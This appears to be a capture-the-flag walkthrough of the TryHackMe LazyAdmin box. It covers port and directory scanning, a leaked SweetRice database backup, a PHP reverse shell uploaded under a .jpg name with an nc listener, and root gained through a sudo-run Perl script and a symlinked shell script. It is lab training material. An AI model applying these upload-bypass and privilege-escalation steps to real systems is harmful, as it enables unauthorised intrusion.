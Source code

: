 # 🧠 TryHackMe: LazyAdmin Walkthrough

**Category**: Easy  
**Tags**: `web`, `reverse-shell`, `suid`, `perl`, `privesc`

---

## 🔍 Enumeration

### Nmap Scan
```bash
nmap -sC -sV -oN nmap_initial.txt lazy.thm
````

Open Ports:

* `80/tcp` - Apache 2.4.18
* `22/tcp` - OpenSSH 7.2p2

### Gobuster

```bash
gobuster dir -u http://lazy.thm -w /usr/share/wordlists/dirb/common.txt -o gobuster.txt
```

Interesting paths:

* `/content/`
* `/content/as/` → Admin login panel

---

## 🛠️ Exploitation

### CMS Detection: SweetRice

CMS identified as **SweetRice**, version `1.5.0`. Publicly known exploits available:

* Backup file disclosure
* Authenticated file upload → RCE

### Leaked Backup File

```bash
curl http://lazy.thm/content/inc/mysql_backup/<redacted>.sql
```

Contained:

* Username: `manager`
* Password hash: `<redacted>`

Cracked hash → plaintext password: **`<redacted>`**

### Authenticated Upload

Logged in at `/content/as/`
Used upload endpoint:

```
/content/as/?type=media_center&mode=upload
```

Uploaded PHP reverse shell disguised as `.jpg`. Navigated to shell via public file path.

---

## 🐚 Reverse Shell

Set up a listener:

```bash
nc -lvnp 4444
```

Triggered reverse shell through browser.

Upgraded shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Shell as `www-data`.

---

## ⚡ Privilege Escalation

Checked sudo permissions:

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Script contents:

```perl
system("sh", "/etc/copy.sh");
```

### Exploit:

```bash
echo "/bin/bash" > /tmp/rootme.sh
chmod +x /tmp/rootme.sh
ln -sf /tmp/rootme.sh /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

Now root.

---

## 🏁 Flags

```
User Flag: <REDACTED>
Root Flag: <REDACTED>
```

---

## ✅ Key Takeaways

* Always check `/content/` paths when dealing with CMS installs
* SweetRice has known and easy-to-exploit vulnerabilities
* Perl scripts + `sudo` = privilege escalation opportunity
* Upload restrictions can sometimes be bypassed by misnamed extensions (e.g. `.php.jpg`)

---


